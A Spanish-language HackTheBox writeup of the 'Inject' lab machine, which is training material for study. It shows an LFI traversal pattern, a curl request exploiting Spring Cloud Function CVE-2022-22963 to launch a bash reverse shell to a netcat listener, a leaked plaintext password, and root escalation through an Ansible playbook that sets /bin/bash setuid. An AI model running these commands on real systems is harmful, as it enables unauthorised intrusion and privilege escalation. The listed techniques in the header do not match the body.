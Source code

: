```yaml
---
title: HackTheBox - Inject
author: cotes
date: 2023-09-20 17:51:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Linux, 'LFI', 'RCE Spring Boot (CVE-2022-22963)', 'Information Leakage', 'Ansible Playbook']
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/Inject/logo.jpeg
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Inject Machine Logo
---
```


Máquina Linux de nivel **Easy** de HackTheBox.

Técnicas usadas: **RCE pdfkit 0.8.6 (CVE-2022-25765), Information Leakage, Leak Information, YAML Deserialization**

### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos.

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/HTB/Easy/Inject/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos abiertos

* **`nmap -p<Puertos> -sCV <IP> -oN versiones`**

    ![](/assets/images/HTB/Easy/Inject/02-versions.png)

c. Al visitar la página web tendremos un apartado de `/upload` que nos permitirá subir una imagen

![](/assets/images/HTB/Easy/Inject/03-upload.png)

* Al capturar la petición con Burp Suite nos fijamos que carga la imagen mediante un parámetro

    ![](/assets/images/HTB/Easy/Inject/04-burp.png)

* La web es vulnerable a un LFI con el patrón: `..///////..////..//////etc/passwd` [HackTricks - LFI](https://book.hacktricks.xyz/pentesting-web/file-inclusion)

> Nos mencionan en HackTricks que si al indicarle un directorio, a través del LFI, nos lista los archivos que existen, es una aplicación creada con Java.
{: .prompt-info }

![](/assets/images/HTB/Easy/Inject/05-list.png)

d. Con lo anterior en mente buscamos ficheros que contengan información relevante.

![](/assets/images/HTB/Easy/Inject/06-pom.png)

* Esta versión de **SpringBoot** es vulnerable a un RCE [CVE-2022-22963](https://github.com/J0ey17/CVE-2022-22963_Reverse-Shell-Exploit/blob/main/exploit.py)

    ![](/assets/images/HTB/Easy/Inject/07-curl.png)

* Nos entablaremos una reverse shell

    ```bash
    ❯ curl -s -X POST http://10.10.11.204:8080/functionRouter -H "spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec(\"bash -c {echo,'[Payload Base64]'}|{base64,-d}|{bash,-i}\")" -H "Accept-Encoding: gzip, deflate" -H "Accept: */*" -H "Accept-Language: en" -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36" -H "Content-Type: application/x-www-form-urlencoded"
    -------------------------------------------------------------------------
    ❯ nc -lvnp 443
    frank@inject:/$ 
    ```

### Escalada de Privilegios 💹

a. En nuestro directorio encontraremos un directorio **.m2** el cual contiene un fichero con las credenciales del usuario phil

```xml
<username>phil</username>
<password>DocPhillovestoInject123</password>
```

b. Subimos el [pspy64](https://github.com/DominicBreuker/pspy/releases/tag/v1.2.1)

```bash
phil@inject:/tmp$ ./pspy64

<SNIP>
2023/09/21 16:56:01 CMD: UID=0     PID=5214   | /bin/sh -c /usr/local/bin/ansible-parallel /opt/automation/tasks/*.yml
```

> La tarea es del usuario **root**. Lo que hace es ejecutar todos los ficheros *.yml en el directorio /opt/automation/tasks/
{: .prompt-info }

* Al investigar por alguna forma de escalar privilegios, encontramos este [post](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/ansible-playbook-privilege-escalation/)

* Creamos un fichero .yml en el que el comando a ejecutar será `chmod +s /bin/bash`

    ```bash
    phil@inject:/opt/automation/tasks$ ls -la /bin/bash
    -rwxr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
    phil@inject:/opt/automation/tasks$ cat book.yml 
    - hosts: localhost
    tasks:
        - name: RShell
        command: chmod +s /bin/bash

    phil@inject:/opt/automation/tasks$ ls -la /bin/bash
    -rwsr-sr-x 1 root root 1183448 Apr 18  2022 /bin/bash
    phil@inject:/opt/automation/tasks$ bash -p
    bash-5.0# whoami
    root
    ```